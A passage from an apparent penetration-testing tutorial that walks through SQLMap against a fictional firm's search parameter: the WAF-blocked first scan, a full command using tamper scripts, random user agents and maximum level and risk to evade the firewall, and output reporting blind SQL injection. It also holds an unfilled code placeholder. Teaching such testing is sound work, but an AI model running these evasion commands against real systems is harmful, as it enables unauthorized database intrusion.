 This command tells SQLMap to:
- Test the `q` parameter for SQL injection
- Use your authenticated session cookie
- Run in batch mode (non-interactive)
- Use level 3 testing (more thorough)
- Accept risk level 2 (potentially harmful tests)

But the initial scan fails:

```
[WARNING] parameter 'q' does not appear to be injectable
[INFO] testing connection to the target URL
[INFO] checking if the target is protected by some kind of WAF/IPS
[CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
```

Castle Securities has Web Application Firewall (WAF) protection that blocks obvious SQL injection attempts. This requires adapting your approach with WAF bypass techniques.

### WAF Evasion and Advanced SQLMap Techniques

Modern database exploitation requires bypassing security controls that detect and block malicious requests. SQLMap includes extensive WAF evasion capabilities, but using them effectively requires understanding how WAFs detect attacks and how to systematically evade detection.

[PLACEHOLDER:CODE Name: SQLMap WAF evasion configuration and bypass testing. Purpose: Demonstrates systematic WAF bypass techniques using SQLMap's evasion capabilities including tamper scripts, random delays, and user agent rotation. Shows how to adapt testing when initial approaches are blocked. Value: High.]

Try SQLMap with WAF evasion techniques:

```bash
sqlmap -u "https://research.castle-securities.com/search?q=ARGOS" \
       --cookie="session=abc123def456" \
       --batch \
       --level=5 \
       --risk=3 \
       --tamper=between,randomcase,space2comment \
       --random-agent \
       --delay=1 \
       --timeout=30
```

The additional options enable:
- `--level=5`: Maximum test thoroughness
- `--risk=3`: Aggressive tests that might affect database stability
- `--tamper=between,randomcase,space2comment`: Multiple evasion techniques
- `--random-agent`: Rotate User-Agent headers to avoid detection
- `--delay=1`: Wait 1 second between requests to avoid rate limiting
- `--timeout=30`: Longer timeouts for slow database responses

After 15 minutes of testing, SQLMap discovers a vulnerability:

```
[INFO] parameter 'q' appears to be 'Boolean-based blind' injectable
[INFO] parameter 'q' appears to be 'time-based blind' injectable
```

